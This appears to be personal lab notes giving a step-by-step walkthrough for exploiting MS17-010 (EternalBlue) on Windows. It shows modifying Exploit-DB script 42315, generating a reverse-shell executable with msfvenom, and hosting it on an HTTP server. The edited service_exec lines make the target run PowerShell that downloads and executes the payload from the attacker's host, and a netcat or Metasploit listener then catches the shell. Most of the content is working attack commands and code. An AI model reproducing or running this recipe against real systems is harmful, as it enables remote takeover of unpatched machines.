example of how to delivery the exploit
1. Search exploit
root@kali:/# searchsploit ms17-010

2. Copy(mirror) the exploit in the actual folder
root@kali:/# searchsploit -m 42315

3. Edit the file, in this case we need to add to it the credentials
root@kali:/# mousepad 42315.py

4. We need to import the smb.py in the same folder of the exploit, otherwise it give us an error

As we can from inside the file we can download the file from

root@kali:/# wget https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/42315.py -O mysmb.py

Ok now it works!

5. Proof of of concept that work. It only create pwned.txt file on the remote machine! To do more, we have to edit the code
root@kali:/# python 42315.py 192.168.147.136

6. Custom Payload with msfvenom
msfvenom -a x86 -p windows/shell_reverse_tcp lhost=192.168.147.139 lport=4321 -f exe -o /var/www/html/sc.exe
for x64 systems there is the payload: windows/x64/shell_reverse_tcp

9. Set up HTTP server on the folder where we have saved the payload
root@kali:/# cd /var/www/html/
root@kali:/# ls
root@kali:/# python3 -m http.server 80 -d /var/www/html

8. Edit the exploit file(42315.py)
This is the code that is responsible for connecting to the target and creating the text file. Because we do not want only create a file on the target machine, we have to edit this part of code.
We can see that there is a commented out function, service_exec(), We can use this function to grab our payload and execute it on the target.
Before:

After:
service_exec(conn, r"cmd /c powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.147.139/sc.exe ','C:\Users\pparker\Desktop\sc.exe ');")
service_exec(conn, r'cmd /c C:\Users\pparker\Desktop\sc.exe')
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.147.139/sc.exe ','C:\Users\pparker\Desktop\sc.exe ');
9. Start a Listener on the Attacker machine
Staged payloads use "tiny stagers" to fit into small exploitation spaces and pull the rest of the payload. Stageless payloads or "inline payloads" are self-contained, no stager and more stable. So with a netcat listener, the stager fails to pull the rest of the payload. That's when the msf multi/handler is useful.
◇ Unstaged payloads → It is fine use netcat
root@kali:/# nc -vlp [port number]

◇ Staged payloads → They does not work with netcat, because of that we need to use exploit/multi/handler in Metasploit to catch shells
root@kali:/# msfconsole
msf> use exploit/multi/handler
msf> set payload payload/windows/shell/reverse_tcp
msf> set lhost <localIP>
msf> set lport <liseningPort>
10. Now we can run the python
root@kali:/# python 42315.py <TargetIp>

11. Now we should have received a shell on the listener of point 9

Bibliography:
https://null-byte.wonderhowto.com/how-to/manually-exploit-eternalblue-windows-server-using-ms17-010-python-exploit-0195414/